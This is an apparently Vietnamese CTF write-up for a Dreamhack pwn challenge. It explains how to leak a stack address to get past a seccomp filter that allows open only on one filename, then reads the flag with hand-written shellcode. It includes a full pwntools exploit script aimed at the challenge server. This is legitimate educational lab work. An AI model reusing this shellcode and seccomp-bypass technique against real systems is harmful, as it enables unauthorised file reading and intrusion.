





# Decription

[](https://dreamhack.io/wargame/challenges/2076)

# Source



# Problem

Trong hàm main ta thấy có 5 seccomp rule được thêm.

Sử dụng seccomp-tools để biết rõ hơn về các syscall được phép.



Ta thấy rằng được phép read, write và exit.

open chỉ được phép khi filename thỏa mãn địa chỉ. Khả năng đó chính là địa chỉ flag.

Vậy ta sẽ lợi dụng shellcode để lấy flag.

# Solve

Mở gdb và đặt breakpoint

```c
gef➤  checksec
[+] checksec for '/home/long/Downloads/dreamhack/pwn/passfor/main'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

Xem trong main ta thấy shellcode được thực thi trong rdx

```c
   0x0000000000001402 <+473>:   mov    rdx,QWORD PTR [rbp-0x30]
   0x0000000000001406 <+477>:   mov    eax,0x0
   0x000000000000140b <+482>:   call   rdx
```

Tôi chạy seccomp-tools nhiều lần và nhận ra rằng 12bits cuối của địa chỉ filename không thay đổi là 030. Việc chúng ta cần làm là leak địa chỉ trong cùng vùng nhớ với filename để tính offset.


Ý tưởng là in ra 1 lượng lớn bytes trên stack và nhận lại địa chỉ cùng vùng nhớ với filename. Sau đó ta nhập địa chỉ filename lên stack và nội dung là flag.txt. Sau đó open->read-> write.

```c
    mov rax, 0x1
    mov rsi, rsp
    mov rdi, 1
    mov rdx, 0x100
    syscall
```



Tôi nhận được 6 bytes exe leak được. Thật may mắn vì có 1 addresss có 12 bits cuối là 030 và 16 bits đầu là 5643. Khá là giống với những seccomp tôi đã chạy. ( hãy chạy seccomp nhiều lần để thấy nó có quy luật như vậy).

Tôi nghĩ đó chính là filename mà tôi cần tìm.

Vậy tiếp theo chúng ta cần nhập filename lên stack và cho nó trỏ vào flag.txt. Vì chúng ta cần làm là open filename rồi read sau đó write.

```c
// Nhập địa chỉ filename
    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, rsp
    syscall

//Nhập flag.txt vào con trỏ của filename
    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, [rsp]
    syscall
    
// open flag.txt
    mov rax, 0x2
    mov rdi, [rsp]
    xor rsi, rsi
    xor rdx, rdx
    syscall
//read flag.txt
    mov rdi, rax
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall
//write flag
    mov rdi, 1
    mov rsi, rsp
    mov rdx, 0x100
    mov rax, 1
    syscall
```




# Full Script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('main', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())

def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
b* main+165
b* main+473
b* main+482
        c
        ''')
        input()

if args.REMOTE:
    p = remote('host8.dreamhack.games', 11819)
else:
    p = process([exe.path])
GDB()


shellcode = asm('''

    mov rax, 0x1
    mov rsi, rsp
    mov rdi, 1
    mov rdx, 0x100
    syscall

    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, rsp
    syscall

    mov rax, 0x0
    mov rdi, 0
    mov rdx, 0x100
    mov rsi, [rsp]
    syscall

    mov rax, 0x2
    mov rdi, [rsp]
    xor rsi, rsi
    xor rdx, rdx
    syscall

    mov rdi, rax
    mov rsi, rsp
    mov rdx, 0x100
    xor rax, rax
    syscall

    mov rdi, 1
    mov rsi, rsp
    mov rdx, 0x100
    mov rax, 1
    syscall


''')

sla(b'spell > ', shellcode)
p.recv(23)
p.recv(48)
filename =u64(p.recv(6)+ b'\x00\x00')
print(hex(filename))


sl(p64(filename))
# input('Flag')
s(b'flag.txt')
p.interactive()
```


